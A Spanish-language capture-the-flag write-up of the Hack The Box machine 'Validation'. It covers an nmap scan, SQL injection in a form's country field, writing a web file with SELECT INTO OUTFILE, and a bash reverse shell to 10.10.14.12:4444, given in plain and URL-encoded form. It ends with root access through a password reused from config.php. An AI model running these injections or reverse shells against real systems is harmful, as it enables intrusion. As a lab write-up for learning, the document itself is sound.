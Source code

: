 ```yaml
---
title: "HTB - Validation"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2022/validation.png"
categories:
  - WriteUp
---
```



OS | LINUX
Desarrollado por | ipsec
Dificultad | Fácil
Liberación | 13 Septiembre 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.11.116 solo encontramos que está abierto el 80 (web),22 (SSH),8080,4566
```
# Nmap 7.92 scan initiated Wed Aug  3 11:19:23 2022 as: nmap -p22,80,4566,8080 -sCV -O -oN nmap/NMAP validation.htb
Nmap scan report for validation.htb (10.10.11.116)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug  3 11:19:45 2022 -- 1 IP address (1 host up) scanned in 22.46 seconds
```

Empezamos a enumerar directorios e interactuamos con la web, usando nmap –script=http-enum, y solo encuentra account.php. No se encuentra nada más y solo podemos interactuar con la web.

![Validation 1](/assets/images/post/2022/validation1.png)

Al registrarnos en la web nos damos cuenta de que envía un usuario y un país, el cual luego nos muestra nuestro usuario para el país que se eligió. Entre más usuarios registramos a la web más se muestra en la web como usuario, es por ello por lo que podemos pensar que la aplicación puede hacer un INSERT a una base de datos y luego genera un SELECT con el WHERE al país seleccionado. Probamos un SQL injection tanto en el usuario y en el país, y nos percatamos que en la variable country es vulnerable.

Probamos enumerar información importante en la Base de Datos (nombre de base de datos, tablas, usuarios). Descubrimos que la Base de datos que se utiliza es Maria DB 10.5.11

## 1° Shell

Mientras se prueba el SQL injection descubrimos que la web está en /var/www/html, además podemos crear archivos con el SELECT “<CONTENIDO DEL ARCHIVO>” INTO OUTFILE “<RUTA ESPECIFICA DEL ARCHIVO>» y esto nos genera un archivo en la ruta especificada.

Con este pagina creada podemos crear una Shell reversa con el siguiente bash -c ‘bash -i>& /dev/tcp/10.10.14.12/4444 0>&1’ al tratar de ejecutar no nos carga la Shell reversa, es por ello que codificamos el comando en URL ENCODE %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%32%2f%34%34%34%34%20%30%3e%26%31%27, y nos carga la Shell (esto pasa por que el navegador debe codificar el dato antes de enviarlo).

## 2° SHELL (root)

Revisando con el www-data vemos que no hay usuario para el sistema, pero en /var/www/html hay un archivo config.php con usuario y contraseña (uhc:uhc-9qual-global-pw) para conectarse localmente a la máquina, probamos esta clave con el usuario root.

![Racso](https://www.hackthebox.com/badge/image/159593)